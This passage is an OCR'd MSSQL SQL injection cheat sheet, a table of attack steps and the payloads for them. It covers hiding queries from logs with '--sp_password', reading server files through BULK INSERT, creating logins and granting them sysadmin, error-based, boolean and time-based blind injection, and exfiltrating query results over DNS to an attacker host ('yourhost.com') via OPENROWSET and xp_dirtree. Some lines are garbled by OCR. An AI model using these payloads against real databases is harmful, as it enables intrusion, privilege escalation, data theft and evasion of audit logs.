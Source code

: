 Covering Tracks | SQL Server don't log queries which includes sp_password for security reasons(!). So if you add --sp_password to your queries it will not be in SQL Server logs (of course still will be in web server logs, try to use POST if it's possible) Insert a file content to a table. If you don't know internal path of web application, you can read IIS (IIS 6 only) metabase file(%systemroot%\system32\inetsrv\MetaBase.xml) and then search in it to identify application path. Create table foo( line varchar(8000) ); bulk insert foo from 'c:\inetpub\wwwroot\login.asp'; Drop temp table; and repeat for another file
Create Users | EXEC sp_addlogin 'user', 'pass';
. | - This command creates a new SQL Server login where username is ‘user’ and password is ‘pass’.
Drop User | EXEC sp_droplogin 'user';
. | - This command drops a username = ‘user’ from SQL Server login.
Make User DBA | EXEC master.dbo.sp_addsrvrolemember 'user', 'sysadmin;
. | - This command makes a ‘user’ DBA.
Local File Access | CREATE TABLE mydata (line varchar(8000));
. | BULK INSERT mydata FROM ‘c:boot.ini’;
. | DROP TABLE mydata;
. | - This command is used to gain Local File Access.
Hostname, IP Address | SELECT HOST_NAME();
. | - This command obtains the Hostname and IP address of a system.
Error Based SQLi attack: To throw conversion errors. | For integer inputs: convert(int,@@version);
. | For string inputs: ‘ + convert(int,@@version) +’;
Clear SQLi Tests: For Boolean SQL injection and silent attacks | product.asp?id=4;
. | product.asp?id=5-1;
. | product.asp?id=4 OR 1=1;
. | - These commands can be used as tests for Boolean SQL
injection and silent attacks. Error Messages | SELECT * FROM master..sysmessages;
. | - This command retrieves all the errors messages present in the SQL server.
Linked Servers | SELECT * FROM master..sysservers;
. | - This command retrieves all the Linked Servers.
. | ?vulnerableParam=1;DECLARE @x as int;DECLARE @w as char(6);SET @x=ASCII(SUBSTRING(({INJECTION}),1,1));IF @x=100 SET @w='0:0:14' ELSE SET @w='0:0:01';WAITFOR DELAY @w— {INJECTION} = You want to run the query.
. | - If the condition is true, will response after 14 seconds. If is false, will be delayed for one second.
Out of Band Channel | ?vulnerableParam=1; SELECT * FROM OPENROWSET('SQLOLEDB', ({INJECT})+'.yourhost.com';'sa';'pwd', 'SELECT 1'); 
. | - This command makes DNS resolution request to {INJECT}.yourhost.com.
. | ?vulnerableParam=1; DECLARE @q varchar(1024); SET @q = '\\'+({INJECT})+'.yourhost.com\\test.txt'; EXEC master..xp_dirtree @q
. | - This command makes DNS resolution request to {INJECT}.yourhost.com.
. | - {INJECTION} = You want to run the query.
Default Databases | Northwind
. | Model
. | Sdb
. | pubs — not on sql server 2005
. | tempdb
Path of DB files | %PROGRAM_FILES%\Microsoft SQL
. | Server\MSSQL.1\MSSQL\Data\
Location of DB Files | EXEC sp_helpdb master;
. | - This command retrieves the location of master.mdf.
. | EXEC sp_helpdb pubs;
. | - This command retrieves the location of pubs.mdf. 
privileges | .
Current privs on a particular object in 2005, 2008 | SELECT permission_name FROM master..fn_my_permissions(null, ‘DATABASE’);
. | - This command returns a column name ‘permission_name’ from the table ‘master..fn_my_permissions’ where securable is set to ‘null’ and securable_class permission is set to current ‘DATABASE’.
. | SELECT permission_name FROM master..fn_my_permissions(null, ‘SERVER’);
. | - This command returns a column name ‘permission_name’
. | from the table ‘master..fn_my_permissions’ where securable is set to ‘null’ and securable_class permission is set to current ‘SERVER’.
. | SELECT permission_name FROM master..fn_my_permissions(‘master..syslogins’, ‘OBJECT’);
. | - This command returns a column name ‘permission_name’
